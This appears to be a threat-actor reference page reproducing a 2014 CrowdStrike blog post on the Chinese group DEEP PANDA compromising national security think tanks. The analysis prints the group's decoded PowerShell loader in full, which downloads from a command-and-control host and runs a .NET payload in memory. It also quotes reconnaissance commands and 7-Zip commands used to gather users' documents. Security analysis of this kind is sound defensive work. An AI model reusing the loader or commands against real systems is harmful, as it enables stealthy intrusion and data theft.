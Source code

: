 # Reference for threat actor for "APT 19, Deep Panda, C0d0so0"

**Title**: Deep in Thought: Chinese Targeting of National Security Think Tanks - crowdstrike.com

**Source**: https://www.crowdstrike.com/blog/deep-thought-chinese-targeting-national-security-think-tanks/

## Content






 







Deep in Thought: Chinese Targeting of National Security Think Tanks - crowdstrike.com







































































 



Deep in Thought: Chinese Targeting of National Security Think Tanks

July 7, 2014 CrowdStrike Content Team Executive Viewpoint 




For some time now, CrowdStrike has been working with a number of national security think tanks and human rights organizations on a pro bono basis to help them with their security posture. These organizations face some of the most advanced nation-state adversaries — China, Russia, and Iran, just to name a few. The individuals who are typically targeted at these institutions tend to be former senior government officials who still have lots of contacts within Western governments and, as such, their private correspondence is of extreme interest to these attackers.
The intelligence services of these nation states are always on the lookout for any clues they may extract from such private communications that may give them an advanced insight into what options government policy makers are considering on particular issues of interest. At the same time, with access to the victim email mailboxes, the adversaries can craft very realistic spear-phishing lures to the government contacts of targeted think tank personnel by piggybacking on ongoing real conversations and increasing their chances of a successful compromise of an official government email account.
Despite this high threat level, these think tanks are organized as non-profits and often do not have the budgets of commercial organizations to afford cutting-edge security technologies that can help them effectively detect these threats. For this reason, CrowdStrike has provided our Falcon Host endpoint security technology to many of these organizations at no charge to them to help detect and attribute these attackers on their networks in real time, as well as to receive instantaneous full forensic visibility into their behavior to help with full remediation of any incident.
Recently, Falcon Host has detected multiple simultaneous compromises at several national security think tanks from an actor we call DEEP PANDA, one of the most advanced Chinese nation-state cyber intrusion groups. For almost three years now, CrowdStrike has monitored DEEP PANDA targeting critical and strategic business verticals including: government, defense, financial, legal, and the telecommunications industries. At the think tanks, Falcon Host detected targeting of senior individuals involved in geopolitical policy issues, in particular in the China/Asia Pacific region. However, last week the unprecedented real-time visibility provided by Falcon Host into this actor’s escapades allowed analysts to observe a radical change in targeting.
This actor, who was engaged in targeting and collection of Southeast Asia policy information, suddenly began targeting individuals with a tie to Iraq/Middle East issues. This is undoubtedly related to the recent Islamic State of Iraq and the Levant (ISIS) takeover of major parts of Iraq and the potential disruption for major Chinese oil interests in that country. In fact, Iraq happens to be the fifth-largest source of crude oil imports for China and the country is the largest foreign investor in Iraq’s oil sector. Thus, it wouldn’t be surprising if the Chinese government is highly interested in getting a better sense of the possibility of deeper U.S. military involvement that could help protect the Chinese oil infrastructure in Iraq. In fact, the shift in targeting of Iraq policy individuals occurred on June 18, the day that ISIS began its attack on the Baiji oil refinery.

The Attacks
CrowdStrike’s Falcon Host technology used by these think tanks consists of a tiny (under 5mb in size) kernel sensor that is deployed on Windows and Mac servers, desktops, and laptops and is able to do real-time detection and recording of all adversary activities taking place on the system. In addition, by matching the detected activities against our vast Adversary Intelligence repository, Falcon Host can automatically attribute the attack to a known adversary group and provide details about their motivations, capabilities, and key Tactics, Techniques, and Procedures (TTPs).
Recently, we detected breaches of these networks via the use of powershell scripts deployed by the adversary as scheduled tasks on Windows machines. The scripts are passed to the powershell interpreter through the command line to avoid placement of extraneous files on the victim machine that could potentially trigger AV- or Indicator of Compromise (IOC)-based detection.



The scripts were scheduled to call back every two hours to the DEEP PANDA Command and Control (C2) infrastructure.

The script in the command line is base64 encoded, but when decoded it translates to the following code snippet:
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
$wc = New-Object -TypeName System.Net.WebClient
$wc.Headers.Add(“Accept-Language”, “en-US,en;q=0.” + ([IntPtr]::Size – 1).ToString())
$wc.Headers.Add(“User-Agent”, “Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; WOW64; Trident/6.0)”)
$rndn = Get-Random
$wc.Headers.Add(“Cookie”, “p=” + $rndn)
$data = $wc.DownloadData(“https://<ANONYMIZED>/config/oauth/”)
[string[]]$xags = “https://<ANONYMIZED>/config/login/”, “WMITool.Program”, “Main”, “/f”, “ssh”, “/s”, “<ANONYMIZED>”, “/p”, “443”
$Passphrase = “<ANONYMIZED>”
$salts = “<ANONYMIZED>”
$r = new-Object System.Security.Cryptography.RijndaelManaged
$pass = [System.Text.Encoding]::UTF8.GetBytes($Passphrase)
$salt = [System.Text.Encoding]::UTF8.GetBytes($salts)
$r.Key = (new-Object Security.Cryptography.PasswordDeriveBytes $pass, $salt, “SHA1”, 5).GetBytes(32) #256/8
$r.IV = (new-Object Security.Cryptography.SHA1Managed).ComputeHash( [Text.Encoding]::UTF8.GetBytes($rndn) )[0..15]
$d = $r.CreateDecryptor()
$ms = new-Object IO.MemoryStream @(,$data)
$cs = new-Object Security.Cryptography.CryptoStream $ms,$d,”Read”
$dfs = New-Object System.IO.Compression.GzipStream $cs, ([IO.Compression.CompressionMode]::Decompress)
$msout = New-Object System.IO.MemoryStream
[byte[]]$buffer = new-object byte[] 4096
[int]$count = 0
do
{
 $count = $dfs.Read($buffer, 0, $buffer.Length)
 $msout.Write($buffer, 0, $count) 
} while ($count -gt 0)
$dfs.Close()
$cs.Close()
$ms.Close()
$r.Clear()
[byte[]]$bin = $msout.ToArray()
$al = New-Object -TypeName System.Collections.ArrayList
$al.Add($xags)
$asm = [System.Reflection.Assembly]::Load($bin)
$asm.EntryPoint.Invoke($null, $al.ToArray())
sleep 5
Exit
Once executed, it downloads and executes from memory a .NET executable (typically named Wafer), which in turn typically downloads and runs MadHatter .NET Remote Access Tool (RAT), one of the favorites of DEEP PANDA. By running them from memory, it leaves no disk artifacts or host-based IOCs that can be identified in forensic analysis. This is typical for DEEP PANDA — stealth is their specialty and they prefer to operate in a way that leaves a minimal footprint on a victim system and often allows them to evade detection for a very long time.

For this same reason, DEEP PANDA likes to use webshells to keep low-footprint persistent access to the victim network, as we’ve covered in our prior blogs. This case was no exception, and that initial webshell implant allowed them to execute reconnaissance commands such as “tasklist,” “net view,” and “net localgroup administrators,” and then afterward to deploy the powershell scripts.
The adversary used stolen credentials to mount network shares via “net use” command. In one case, they brought in Cult of the Dead Cow’s NetE tool onto the system, but most of the time they leveraged existing Windows tools and avoided bringing many new tools into the environment that could make them noisy and easily detectable by technologies that scan for static IOCs.
After using compromised credentials to mount file shares, the adversary was seen compressing data using 7-zip. They were adding different document types to compressed files by wildcarding the extensions, such as:
“C:Program Files7-Zip7z” a setup1.log -r -pkkk*** “\<share name>users<UserName>*rtf *doc”
“C:Program Files7-Zip7z” a setup1.log -r -pkkk*** “\<share name>users<UserName>*ppt”
They knew exactly which users to target based on their research policy area, and they rapidly pivoted from China/Asia Pacific policy experts to Iraq/Middle East policy experts once their tasking collection requirements changed.


Aggressive Use of Ping to Determine Which Machines of Interest are Online
On one of the compromised machines, the adversary brought in a command-line version of RAR archiver that was named “cftmon.exe” and placed it into “c:windowstemphotfix” directory. The files were encrypted (both file data and headers) with “uinfw” password and the archive files were named after the initials of each user that had been targeted and stored in the same “c:windowstemphotfix” directory.
For lateral movement, they used WMI to deploy the powershell scripts remotely and setup scheduled tasks on the remote systems.

Despite the fact that we were seeing nearly identical TTPs used across multiple think-tank targets, there is evidence to indicate that these operations had different individuals behind the keyboard based on the intricacies of how certain powershell command lines had been used in each case.
Summary
DEEP PANDA presents a very serious threat not just to think tanks, but also multinational financial institutions, law firms, defense contractors, and government agencies. Due to their stellar operational security and reliance on anti-forensic and anti-IOC detection techniques, detecting and stopping them is very challenging without the use of next-generation endpoint technology like Falcon Host.  Not only was Falcon Host able to detect this adversary without relying on static signatures or IOCs, but it was able to provide instantaneous and full forensic analysis of what had occurred on each of the compromised endpoints without the need to pull hard drives and do costly and time-intensive forensics, substantially reducing the time needed for remediation.
If you are a non-profit think tank or a human rights organization that would like to take advantage of our no-charge offer of Falcon Host licenses for your servers and desktops, please email us at sales@crowdstrike.com with the subject “Non-Profit Falcon Host Offer.”  

Our Falcon Intelligence subscribers have had access to multiple reports on the DEEP PANDA actor that includes full analysis of their attribution, tradecraft and TTPs, as well as detection indicators and signatures and remediation instructions. And our CrowdStrike Services has worked on multiple intrusion investigations related to DEEP PANDA in the last year. If you would also like to see a demo of Falcon Host or Falcon Intelligence in action or discuss our Services offerings, please contact our Sales Team to schedule a personal briefing.
Stay safe and keep a watchful eye on the Pandas, Bears, Kittens, and other threat actors who are relentlessly preying on your data!







Tweet





Share





Related Content






CrowdStrike Brings AI-Powered Cybersecurity to Small and Medium-Sized Businesses








CrowdStrike a “Customers’ Choice” — Received One of the Highest Ratings in 2023 Gartner® Peer Insights™ Voice of the Customer for Endpoint Protection Platform Report








CrowdStrike Achieves 100% Protection, 100% Visibility, 100% Analytic Detection in MITRE Engenuity ATT&CK® Evaluations: Enterprise











 Hat-tribution to PLA Unit 61486
Registry Analysis with CrowdResponse 









 
















Copyright © 2023 CrowdStrike
Privacy
Request Info
Blog
Contact Us
1.888.512.8906














